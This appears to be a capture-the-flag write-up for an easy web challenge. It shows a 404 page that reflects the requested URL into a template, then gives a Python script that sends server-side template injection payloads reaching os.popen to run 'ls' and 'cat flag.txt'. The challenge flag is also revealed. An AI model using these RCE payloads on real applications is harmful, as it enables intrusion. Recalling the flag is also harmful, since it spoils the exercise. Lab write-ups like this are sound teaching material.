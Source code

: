# Templated

## Overview

* Difficulty: Easy
* Category: Web

## Description
> Can you exploit this simple mistake?

## Approach

1. Testing the webapp, we can see that in case the entered URL doesn't corrispond to a known server route the response will prompt out the following 404 page:

```
Error 404

The page '{GIVEN_URL}' could not be found
```

2. Since the response prompts out our own injected URL, we could try to run a Server Side Template Injection: in case the given value is surrounded by two pairs of curly braces, the server will try to evaluate the given expression before prompting it out. For example, using `{{ 5*5 }}` as the given value would prompt out 25.

```
# After testing with https://IP:PORT/{{5*5}}
Error 404

The page '25' could not be found
```

3. We can further exploit this value by making the server evalate a Python Module Injection, importing the OS module and running RCE

```py
import requests as req

def run_SSTI(url, payload):

    print(f"URL: {payload}")
    print(f"PAYLOAD: {payload}")

    s = req.Session()
    res = s.get(f"{url}{payload}").text.split("<str>")[1].split("</str>")[0]

    print("RESULT")
    print("-"*30)
    print(res+"\n")


url = "http://46.101.23.188:30073/"

print("[»] Trying to run Server Side Template Injection...")
run_SSTI(url, "{{5*5}}")

print("[»] Injecting command 'ls'...")
payload = "{{self._TemplateReference__context.joiner.__init__.__globals__.os.popen('ls').read()}}"
run_SSTI(url, payload)

print("[»] Injecting command 'cat flag.txt'...")
payload = "{{self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat flag.txt').read()}}"
run_SSTI(url, payload)
```

## Flag

<details>
<summary>Click to view the flag</summary>

__HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}__

</details>